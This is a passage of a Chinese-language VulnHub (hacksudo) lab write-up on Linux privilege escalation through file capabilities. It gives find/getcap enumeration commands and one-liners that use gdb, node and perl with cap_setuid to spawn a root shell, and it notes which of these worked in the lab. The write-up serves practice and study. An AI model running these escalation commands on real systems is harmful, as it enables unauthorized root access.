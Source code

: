 ```shell
./gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
```

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\44.jpg)

## node语言

使用`find`寻找

```shell
find / -name "getcap" 2>/dev/null
find / -type f -executable 2>/dev/null | xargs /usr/sbin/getcap -r 2>/dev/null
```

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\45.jpg)

查看用法

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\46.jpg)

```shell
cp $(which node) .
sudo setcap cap_setuid+ep node

./node -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

测试，发现无权限使用`setcap`，那就无法修改，无法提取，只能到此

## perl语言

之前确认了`getcap`的命令位置，以及可使用，所以，直接搜索

```shell
find / -type f -executable 2>/dev/null | xargs /usr/sbin/getcap -r 2>/dev/null
```

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\47.jpg)

查看用法

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\48.jpg)

```shell
cp $(which perl) .
sudo setcap cap_setuid+ep perl

./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

这里因为在当前用户目录下，有权限，并且满足条件。所以可以到目录下直接使用

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\49.jpg)

## php语言
